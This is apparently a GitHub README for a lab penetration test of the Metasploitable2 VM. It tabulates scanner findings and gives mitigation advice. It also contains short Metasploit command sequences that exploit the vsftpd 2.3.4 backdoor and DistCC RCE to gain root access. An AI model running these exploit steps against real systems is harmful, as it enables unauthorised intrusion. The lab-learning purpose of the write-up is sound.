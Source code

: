 # Penetration Testing on Metasploitable2

## Overview
This project involves conducting penetration testing on the Metasploitable2 virtual machine using **Kali Linux**. The main objective was to identify, analyze and exploit vulnerabilities in web and network services while documenting findings and mitigation strategies.

## Tools Used
- **Metasploitable2**: A vulnerable Linux VM used as the target.
- **Kali Linux**: The attacker machine.
- **Nikto**: Web vulnerability scanner.
- **OpenVAS**: Network vulnerability assessment tool.
- **Metasploit Framework**: Exploitation tool.
- **Nmap**: Network scanner.


## Vulnerabilities Discovered

### **Web Vulnerabilities (Nikto Scan)**
| **Vulnerability** | **CWE ID** | **Description** | **Risk Level** |
|------------------|-----------|----------------|---------------|
| **Clickjacking** | CWE-1021 | X-Frame-Options header missing, allowing UI redress attacks. | Medium |
| **Directory Browsing** | - | Allows browsing of sensitive files that attackers can access. | Medium |

### **Network Vulnerabilities (OpenVAS Scan)**
| **Vulnerability** | **CVE ID** | **Description** | **Risk Level** |
|------------------|-----------|----------------|---------------|
| **DistCC Remote Code Execution (RCE)** | CVE-2004-2687 | Attackers can execute arbitrary commands remotely. | High |
| **vsftpd 2.3.4 Backdoor** | CVE-2011-2523 | Backdoor in vsftpd allows unauthorized root access. | Critical |
| **OpenSSL MITM Attack** | CVE-2014-0224 | SSL/TLS vulnerability allowing encrypted traffic interception. | High |

---

## Exploitation Demonstrations
### **1️⃣ Exploiting vsftpd 2.3.4 Backdoor**
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <Metasploitable_IP>
exploit
whoami  # Confirms root access


### 2️⃣ Exploiting DistCC RCE
msfconsole
use exploit/unix/misc/distcc_exec
set RHOST <Metasploitable_IP>
set LHOST <Attacker_IP>
exploit
whoami  # Confirms access

```

## Security Recommendations
To mitigate these vulnerabilities, the following security measures should be implemented:

### For Web Vulnerabilities:
✅ Enable X-Frame-Options to protect against clickjacking.  
✅ Disable directory listing in Apache/Nginx configurations.  
✅ Implement Content Security Policy (CSP) to control how resources are loaded.  

### For Network Vulnerabilities:
✅ Patch vsftpd 2.3.4 to the latest version.  
✅ Disable unused services like DistCC to minimize attack surface.  
✅ Use strong encryption (TLS 1.2/1.3) instead of outdated OpenSSL versions.  

### General Recommendations:
✅ Use a Web Application Firewall (WAF).  
✅ Regularly scan for vulnerabilities using OpenVAS and Nikto.  
✅ Implement strict access controls and monitoring.  



## Resources
Here are some useful resources for further learning:

- [Metasploitable2 VM](https://sourceforge.net/projects/metasploitable/)
- [Kali Linux](https://www.kali.org/)
- [Metasploit Framework](https://www.rapid7.com/products/metasploit/)
- [Nikto Web Scanner](https://cirt.net/nikto2)
- [OpenVAS Scanner](https://www.openvas.org/)
- 📄 **Full Report on Notion:** [Penetration Testing Project](https://www.notion.so/Penetration-Testing-Project-1ba7c5d196f480f59b86e51ecca04799?pvs=4)  




